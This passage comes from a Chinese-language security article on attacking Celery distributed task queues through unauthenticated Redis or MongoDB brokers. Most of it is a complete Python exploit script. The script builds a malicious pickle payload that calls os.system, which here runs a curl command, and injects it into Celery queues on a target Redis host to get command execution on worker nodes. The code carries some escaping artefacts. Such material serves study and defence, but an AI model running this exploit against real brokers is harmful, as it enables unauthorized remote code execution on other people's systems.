 ```
                continue
    return info
...
```

而由于 Celery 在使用 MongoDB 的时候需要指定数据库，所以需要对存在未授权访问的 MongoDB 中的每一个数据库都进行检测，判断其中的集合名称是否符合条件，若符合即可判断其作为了消息队列中间件。<br>

**2. 使用脚本进行消息注入攻击分布式节点**

使用上面两个脚本在本地环境进行测试：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](http://www.mottoin.com/89644.html/14-49)

这里要说明的一个问题就是，不是所有使用了 Celery 分布式框架的应用都配置了 pickle 的序列化方式，若其只配置了 JSON 等其他安全的序列化方式，则就无法利用 Python 反序列化进行命令执行了。

一个简单的真对 Redis Broker 类型的攻击脚本：

```
# celery_broker_redis_exp.py
import re
import json
import redis
import pickle
import base64
evil_command = 'curl http://127.0.0.1:8000/`{``}`'
def create_evil_task_body(command, body_encoding='base64'):
    class Command(object):
        def __reduce__(self):
            import os
            return (os.system, (command, ))
    if body_encoding == 'base64':
        return base64.b64encode(pickle.dumps(Command()))
def create_evil_message(body):
    message = `{`"body": body,"headers": `{``}`,"content-encoding": "binary","content-type": "application/x-python-serialize","properties": `{`"body_encoding": "base64","reply_to": "c8b55284-c490-3927-85c5-c68a7fed0525","correlation_id": "1d8fa7ae-12f6-4229-9eb9-99d5bbb9dabe","delivery_info": `{`"routing_key": "celery","exchange": "celery","priority": 0`}`,"delivery_mode": 2,"delivery_tag": "027bd89a-389e-41d1-857a-ba895e6eccda"`}``}`
    return json.dumps(message)
def exp(seed):
    try:
        ip, port = seed.split(':')
    except ValueError as ex:
        ip, port = seed, 6379
    r = redis.Redis(ip, int(port), socket_connect_timeout=5)
    keys = r.keys()
    info = dict(succeed=False, keys=list())
    for key in keys:
        matched = re.search(r'^_kombu.binding.(?P&amp;lt;queue&amp;gt;.*)', key)
        if matched:
            queue_name = matched.group('queue')
            message = create_evil_message(
                create_evil_task_body(evil_command.format(queue_name))
            )
            r.lpush(queue_name, message)
exp('192.168.99.100')
```
